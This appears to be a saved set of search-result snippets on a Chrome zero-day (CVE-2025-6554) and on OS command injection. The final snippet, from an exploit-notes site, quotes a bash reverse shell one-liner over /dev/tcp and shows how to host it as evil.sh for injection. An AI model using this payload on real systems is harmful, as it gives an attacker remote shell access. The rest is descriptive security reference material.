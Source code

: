 * https://gbhackers.com/chrome-0-day-security-vulnerability/

<blockquote>
 Chrome0DayFlawExploitedintheWildtoExecuteArbitraryCode
</blockquote>
<blockquote>
The bug allows a remote attacker to perform arbitrary read and write operations in the browser's memory by luring users to maliciously crafted web pages. Successful exploitation could enable attackers to execute arbitrary code, potentially leading to full system compromise. &quot;Google is aware that an exploit for CVE-2025-6554 exists in the wild,&quot; the company stated in its security advisory ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-07`

* https://knowledge-base.secureflag.com/vulnerabilities/code_injection/os_command_injection_vulnerability.html

<blockquote>
 OSCommandInjectionSecureFlagSecurityKnowledgeBase
</blockquote>
<blockquote>
Impact Malicious attackers can leverage OS Command Injection vulnerabilities to gain a foothold in the hosting infrastructure, pivot to connected systems throughout the organisation, execute unauthorised commands and fully compromise the confidentiality, integrity and availability of the application and the underlying system. There is no better publicly known breach that better illustrates the ...
</blockquote>

---

## DuckDuckgo search -> Kennetic exploit OS Command injection
`2025-07-07`

* https://exploit-notes.hdks.org/exploit/web/security-risk/os-command-injection/

<blockquote>
 OSCommandInjectionExploitNotesHDKS
</blockquote>
<blockquote>
Indirect Payloads with Shell Script If we cannot inject command directly as above, try injecting from files. Create a shell script. The filename here is evil.sh `. &#35;!/bin/bash bash -c 'bash -i &gt;&amp; /dev/tcp/10...1/4444 0&gt;&amp;1' Host this file by starting web server in the directory where the evil.sh exists. sudo python3 -m http.server 80
</blockquote>

---
